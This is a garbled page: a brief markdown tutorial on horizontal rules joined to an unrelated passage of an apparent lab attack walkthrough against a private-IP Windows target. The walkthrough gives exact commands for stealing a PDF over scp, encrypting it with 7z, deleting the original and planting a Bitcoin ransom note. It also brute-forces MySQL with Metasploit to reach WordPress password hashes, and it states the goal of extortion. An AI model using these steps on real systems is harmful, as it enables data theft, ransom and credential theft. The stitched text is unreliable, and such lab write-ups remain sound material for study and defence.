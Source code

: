 The HTML `<hr>` element is for creating a "thematic break" between paragraph-level elements. In markdown, you can create a `<hr>` with any of the following:

* `___`: three consecutive underscores
* `---`: three consecutive dashes
* `***`: three consecutive asterisks

renders to:

___

---

***


# Exfiltration

Once we have a SSH session, where we impersonate an account with high privileges, we can again search for some interesting files. Use the command “cmd” and then move to the Desktop directory with “cd”. Let’s try to search for some PDF documents with the command “dir *.pdf”. We can see (fig. 3) that there is a file called “important.pdf”, that contains useful information for the Administrator. Let’s retrieve a copy of this document to the Kali machine. To do that we need to exit the SSH session (command “exit”) and then use the command “scp Administrator@10.0.2.4:C:/Users/Administrator/Desktop/important.pdf /home/kali/”. We insert again the obtained password and the file will now be copied to the Kali machine. We can then diffuse the content of this file if the ransom will not be paid by a reasonable deadline.

# Impact

We establish again a SSH session as before impersonating the user Administrator. Then use the command “cmd” and move to the Desktop directory with “cd” (fig. 4). Now let’s encrypt the file “important.pdf” on the target by using the following command: “7z a -pAtckPwd encrypted.7z important.pdf”. Instead of “AtckPwd” we should put a password that is at least 10 characters long and not in any dictionary (ex. k7h9Y?àX5$sP). This will prevent the defender from easily guessing our selected password. The target will now contain an encrypted file called “encrypted.7z” (fig. 4), that can be decrypted only using the correct password. The chosen password and the instructions to decrypt the file will be sent by the attacker to the target, after the ransom is paid. Finally, it’s important to delete the original file on the target by using the command “del”.
Now just construct a text file containing the address of the Bitcoin wallet, where the money of the ransom can be sent to. We put this file on the Desktop of the target machine with the command “scp /home/kali/BitcoinAddress.txt Administrator@10.0.2.4:C:/Users/Administrator/Desktop/”.

# Credential Access

Now let’s try to obtain the credentials of the users of WordPress, a service running on the target's webserver. Firstly, we perform online guessing on the MySQL service with the same dictionary used before for the SSH service. To do so we use the command “msfconsole -q” and then “use auxiliary/scanner/mysql/mysql_login”. Now let’s use “set RHOSTS 10.0.2.4”, “set pass_file dictionary.txt” and “set user_file dictionary.txt” as before. After running the exploit with “run”, we observe that “root” is a valid username and the password is NULL. We use the obtained username and password to connect to the MySQL service with the command “mysql --user=root --password= --host=10.0.2.4”. Now we need to steal the hashes of the passwords of the users of WordPress. We use the commands “show databases;” and “use wordpress” to access the WordPress database. We are interested in the table that contains the information of the users. To access it we use the commands “show tables;” and “describe wp_users;” (fig. 5).
